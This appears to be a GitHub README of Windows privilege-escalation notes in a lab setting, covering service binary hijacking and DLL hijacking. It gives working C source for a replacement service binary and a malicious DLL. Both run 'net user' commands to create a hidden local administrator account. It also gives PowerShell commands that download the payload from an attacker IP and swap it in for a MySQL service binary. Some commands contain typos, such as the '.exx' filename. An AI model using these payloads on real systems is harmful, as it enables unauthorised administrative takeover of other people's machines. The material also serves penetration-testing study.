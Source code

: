 # Privilege Escalation In short


## Add user to the system via Leavrginy mysql service | Service Binary Hijacking. 
### Breif
Each Windows service has an associated binary file. These binary files are executed when the service is started or transitioned into a running state.

For this section, let's consider a scenario in which a software developer creates a program and installs an application as a Windows service. During the installation, the developer does not secure the permissions of the program, allowing full Read and Write access to all members of the Users group. As a result, a lower-privileged user could replace the program with a malicious one. 

To execute the replaced binary, the user can restart the service or, in case the service is configured to start automatically, reboot the machine. Once the service is restarted, the malicious binary will be executed with the privileges of the service, such as LocalSystem.

We begin by connecting to The Victim as user over RDP. To use powershell commands, Get-Ciminstance, Get-Services.. etc. 

To get a list of all installed Windows services, we can choose various methods such as the GUI snap-in services.msc, the Get-Service Cmdlet, or the Get-CimInstance Cmdlet (superseding Get-WmiObject).
### Indicator:
![image](https://github.com/MalekAlthubiany/Scripts_Windows/assets/127455300/6ce3ca29-2b07-48a9-a59e-e4df5648a6c5)
```
#include <stdlib.h>

int main ()
{
  int i;
  
  i = system ("net user dave2 password123! /add");
  i = system ("net localgroup administrators dave2 /add");
  
  return 0;
}
```
## Simply replace the service
```
PS C:\Users\dave> iwr -uri http://192.168.119.3/adduser.exe -Outfile adduser.exe  

PS C:\Users\dave> move C:\xampp\mysql\bin\mysqld.exe mysqld.exe

PS C:\Users\dave> move .\adduser.exe C:\xampp\mysql\bin\mysqld.exx
```

## Add user to the system via Leavrging service (Misconifugation) | Service DLL Hijacking. 
### Breif
Replacing the binary of a service is a very effective way to attempt privilege escalation on Windows systems. However, because our user doesn't often have permissions to replace these binaries, we'll need to adapt with a more advanced way of abusing Windows services.

Dynamic Link Libraries (DLL)1 provide functionality to programs or the Windows operating system. DLLs contain code or resources, such as icon files, for other executable files or objects to use. These libraries provide a way for developers to use and integrate already existing functionality without reinventing the wheel. Windows uses DLLs to store functionality needed by several components. Otherwise, each component would need the functionality in their own source code resulting in a huge resource waste. On Unix systems, these files are called Shared Objects.2

There are several methods we can use to exploit how DLLs work on Windows and they can often be an effective way of elevating our privileges. One method is similar to the privilege escalation vector performed in the previous section. Instead of overwriting the binary, we merely overwrite a DLL the service binary uses. However, the service may not work as expected because the actual DLL functionality is missing. In most cases, this would still lead us to code execution of the DLL's code and then, for example, to the creation of a new local administrative user.

Another method is to hijack the DLL search order.3 The search order is defined by Microsoft and determines what to inspect first when searching for DLLs. By default, all current Windows versions have safe DLL search mode enabled.

This setting was implemented by Microsoft due to the high number of DLL hijacking vectors and ensures that DLLs are more difficult to hijack. The following listing shows the standard search order taken from the Microsoft Documentation:3

### Indicator:
![image](https://github.com/MalekAlthubiany/Scripts_Windows/assets/127455300/13f9db2c-e01e-442e-be3c-aa91e5472a9f)

```
#include <stdlib.h>
#include <windows.h>

BOOL APIENTRY DllMain(
HANDLE hModule,// Handle to DLL module
DWORD ul_reason_for_call,// Reason for calling function
LPVOID lpReserved ) // Reserved
{
    switch ( ul_reason_for_call )
    {
        case DLL_PROCESS_ATTACH: // A process is loading the DLL.
        int i;
  	    i = system ("net user dave2 password123! /add");
  	    i = system ("net localgroup administrators dave2 /add");
        break;
        case DLL_THREAD_ATTACH: // A process is creating a new thread.
        break;
        case DLL_THREAD_DETACH: // A thread exits normally.
        break;
        case DLL_PROCESS_DETACH: // A process unloads the DLL.
        break;
    }
    return TRUE;
}
```

